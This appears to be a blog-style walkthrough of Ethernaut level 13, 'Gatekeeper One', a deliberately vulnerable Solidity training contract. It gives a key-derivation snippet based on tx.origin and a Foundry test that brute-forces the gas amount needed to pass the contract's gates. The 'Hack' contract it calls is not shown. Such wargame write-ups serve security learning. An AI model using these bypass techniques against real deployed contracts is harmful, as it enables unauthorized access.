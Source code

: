 ```yaml
---
title: Level 13 - Gatekeeper One
slug: level-13
published: 05-26-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut13.svg
---
```


## Objectives

1. Get past the three require function modifiers and register as an entrant.

## Vulnerabilities

N/A (It's a technical skill test)

## Exploit

1. Using a contract to interact with the GatekeeperOne contract will satisfy the first `require` since `tx.origin` and `msg.sender` will be different.

2. The key is based on `tx.origin`. You will need to do multiple casts in a row and rely on bit shifting to find it:

```solidity
uint16 k16 = uint16(uint160(tx.origin));
uint64 k64 = uint64(1 << 63) + uint64(k16);

bytes8 key = bytes8(k64);
```

3. Finding the correct gas amount is quite tricky. It will vary based on which compiler version you are using among other things. Testing
   all gas amounts using foundy until it works is a good way to do it.

```solidity
pragma solidity ^0.8;

import "forge-std/Test.sol";
import "forge-std/console.sol";

import "src/GatekeeperOne.sol";

contract TestGateKeeperOne is Test {
    IGateKeeperOne private target;
    // GatekeeperOne private target;
    Hack private hack;

    function setUp() public {
        target = IGateKeeperOne(0xCe78C5830b7c69129723E21f58e5c24e25Ded7a2);
        // target = new GatekeeperOne();
        hack = new Hack();
    }

    function test() public {
        for (uint256 i = 100; i < 8191; i++) {
            try hack.enter(address(target), i) {
                console.log("gas", i);
                return;
            } catch {}
        }
        revert("all failed");
    }
}
```

4. Once you have the correct gas aount, call `enter` with with gas.

## Suggested mitigation

N/A (It's a technical skill test)

## Further reading

- SWC-115 - SWC - Authorization through tx.origin <ExternalLink href={"https://swcregistry.io/docs/SWC-115"} />
